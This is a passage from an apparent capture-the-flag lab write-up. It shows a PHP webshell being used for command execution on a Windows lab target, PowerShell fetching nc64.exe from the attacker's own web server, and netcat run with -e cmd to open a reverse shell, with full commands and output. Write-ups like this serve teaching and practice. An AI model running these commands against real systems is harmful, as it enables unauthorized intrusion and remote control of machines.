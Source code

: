 Now I can hit the webshell, and I have command execution:

```

root@kali# curl -s 'http://10.10.10.167/_0xdf.php?cmd=whoami'
nt authority\iusr
        2       3       4       5       6

```

#### Get NC Shell

I’ll start a Python webserver in the directory where I keep Windows `nc`, and then run:

```

root@kali# curl '10.10.10.167/_0xdf.php?cmd=powershell+wget+http://10.10.14.4/nc
64.exe+-outfile+\windows\temp\nc.exe'

```

This will download `nc64.exe` to `\windows\temp\nc.exe`.

I get the request on my server:

```

root@kali# cd /opt/shells/netcat/; python3 -m http.server 80; cd -
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.167 - - [24/Nov/2019 14:13:47] "GET /nc64.exe HTTP/1.1" 200 -

```

Now, with a local `nc` listener waiting, I’ll execute `nc` to get a shell:

```

root@kali# curl '10.10.10.167/_0xdf.php?cmd=\windows\temp\nc.exe+-e+cmd+10.10.14.4+443'

```

I get a shell as iusr immediately:

```

root@kali# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:53175.
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot>whoami
nt authority\iusr

```

